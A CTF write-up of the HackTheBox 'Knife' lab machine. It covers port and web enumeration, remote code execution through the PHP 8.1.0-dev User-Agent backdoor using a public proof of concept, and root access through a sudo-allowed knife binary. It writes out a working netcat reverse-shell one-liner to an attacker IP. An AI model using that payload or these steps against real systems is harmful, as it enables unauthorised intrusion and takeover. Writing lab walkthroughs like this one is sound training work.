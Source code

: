 ```yaml
---
title: "HackTheBox: Knife - OSCP Prep"
categories:
  - CTF Writeups
toc: true
---
```


This was a 'easy' rated Linux HTB machine with an interesting CVE initial access vector combined with a simple privilege escalation technique. Let's begin.

# Reconnaissance

## Nmap 

`nmap -p- -sV -sC -T4 -n -Pn -o full_thorough.txt knife.htb`

[![1](/assets/images/Knife/1.png)](/assets/images/Knife/1.png){: .full}

We discover 2 ports open: SSH on OpenSSH and HTTP on a Apache server. HTTP offers more possibilites for initial access, so let's enumerate that service first.

## Web 

### Fuzzing 

#### Directories

`ffuf -w /usr/share/.../directory-list-2.3-big.txt -u http://knife.htb/FUZZ -fc 404 | tee ffuf_dir_large.log`

[![2](/assets/images/Knife/2.png)](/assets/images/Knife/2.png){: .full}

The only directory discovered is `server-status`, which is found on most (if not all?) Apache servers, but gives a 403 response code and no interesting information. Let's use a different wordlist to fuzz for common files.

#### Files

`ffuf -w /usr/share/.../big.txt -u http://knife.htb/FUZZ -fc 404 | tee ffuf_big.log`

[![3](/assets/images/Knife/3.png)](/assets/images/Knife/3.png){: .full}

We find two additional results; `.htaccess` & `.htpasswd`. These are also found on all Apache servers, and also give 403 response codes. So no interesting files. If the above two don't return anything interesting, I'll also go onto fuzzing for subdomains / virtual-hosts.

#### VHosts

`ffuf -w /usr/share/.../subdomains-top-110000.txt -u http://knife.htb/FUZZ -H 'Host: FUZZ.knife.htb' -fs 5815`

I'm filtering by size 5815, with `-fs 5815`, as that is the size of our original webpage to reveal any anomolies that could indicate a virtual-host.

[![4](/assets/images/Knife/4.png)](/assets/images/Knife/4.png){: .full}

As we can see from the above there is no results, therefore their are no vhosts on this webserver. Let's try, as a last resort, to enumerate the web technologies to possibly discover a inherent vulnerability in the webstack.

### Web technologies

`whatweb http://knife.htb | tee whatweb.log` 

[![5](/assets/images/Knife/5.png)](/assets/images/Knife/5.png){: .full}

I first searched for vulnerabilities in `Apache 2.4.41` - their weren't many critical ones that stood out to be. Let's try `PHP 8.1.0-dev`. 

[![6](/assets/images/Knife/6.png)](/assets/images/Knife/6.png){: .full}

Interesting... the first result on Google led us to a POC on ExploitDB, this must be the route. 

# Initial Access

The [story](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/) behind this vulnerability is very interesting! TLDR: malicious commits were pushed to PHP's repo which actually embeeded it with a backdoor in the `User-Agent` header

Let's download this POC and put it to test!

[![7](/assets/images/Knife/7.png)](/assets/images/Knife/7.png){: .full}

RCE achieved with a dumb-shell. Let's see if we can upgrade this to a more interactive nc shell.

## Upgrade shell

Rev-shell payload: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.4 4444 >/tmp/f`

Rev-shell listener: `nc -nvlp 4444`

[![8](/assets/images/Knife/8.png)](/assets/images/Knife/8.png){: .full}

Nice work. As `james` we can get the `user.txt` flag!

# Privilege Escalation

## sudo -l as james

I always begin with running `sudo -l` to view if the current user has any capabilities to run as sudo.

[![9](/assets/images/Knife/9.png)](/assets/images/Knife/9.png){: .full}

Interesting, we can run the binary `knife`. Let's see if this is a known PE vector on [GFTObins](https://gtfobins.github.io/).

[![10](/assets/images/Knife/10.png)](/assets/images/Knife/10.png){: .full}

Looks like it! Let's give it a go.

[![11](/assets/images/Knife/11.png)](/assets/images/Knife/11.png){: .full}

Awesome, we are now root and have captured all the flags.

Hope you enjoyed this write-up!